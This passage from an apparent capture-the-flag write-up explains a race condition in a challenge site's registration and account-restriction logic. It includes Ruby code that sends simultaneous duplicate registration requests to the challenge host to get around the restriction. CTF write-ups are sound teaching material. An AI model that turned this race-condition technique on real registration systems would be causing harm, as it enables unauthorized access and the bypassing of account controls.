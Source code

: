 That means, if you can create a user account and log in immediately after, before the second query runs, then you can successfully get the key! But I didn't notice that till later, like, today. I actually found another path to exploitation! :)

## My exploit

This is where things get a little confusing....

I first noticed there's a similar vulnerability in the code that inserts the account restriction into the user table. There's no logic in the application to prevent the creation of multiple user accounts with the same name! And, if you create multiple accounts with the same name, it looked like only the first account would ever get restricted.

That was my reasoning, anyways (I don't think that's actually true, but that turned out not to matter). However, on login, only the first account is actually retrieved from the database! My thought was, if you could get those two SQL statements to run concurrently, so they run intertwined between two processes, it might just put things in the right order for an exploit!

Sorry if that's confusing to you—that logic is flawed in like every way imaginable, I realized afterwards, but I implemented the code anyways. Here's the main part (you can grab the full exploit [here](https://blogdata.skullsecurity.org/aarp-sploit.rb)):

```
<pre id="vimCodeElement">
<span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">httparty</span><span class="Special">'</span>

<span class="Type">TARGET</span> = <span class="Special">"</span><span class="Constant"><a href="http://aart.2015.ghostintheshellcode.com/">http://aart.2015.ghostintheshellcode.com/</a></span><span class="Special">"</span>
<span class="Comment">#TARGET = "<a href="http://192.168.42.120/">http://192.168.42.120/</a>"</span>

name = <span class="Special">"</span><span class="Constant">ron</span><span class="Special">"</span> + rand(<span class="Constant">100000</span>).to_s(<span class="Constant">16</span>)

<span class="Statement">fork</span>()

t1 = <span class="Type">Thread</span>.new <span class="Statement">do</span> |<span class="Identifier">t</span>|
  response = (<span class="Type">HTTParty</span>.post(<span class="Special">"</span><span class="Special">#{</span><span class="Type">TARGET</span><span class="Special">}</span><span class="Constant">/register.php</span><span class="Special">"</span>, <span class="Constant">:body</span> => { <span class="Constant">:username</span> => name, <span class="Constant">:password</span> => name }))
<span class="Statement">end</span>

t2 = <span class="Type">Thread</span>.new <span class="Statement">do</span> |<span class="Identifier">t</span>|
  response = (<span class="Type">HTTParty</span>.post(<span class="Special">"</span><span class="Special">#{</span><span class="Type">TARGET</span><span class="Special">}</span><span class="Constant">/register.php</span><span class="Special">"</span>, <span class="Constant">:body</span> => { <span class="Constant">:username</span> => name, <span class="Constant">:password</span> => name }))
<span class="Statement">end</span>
```
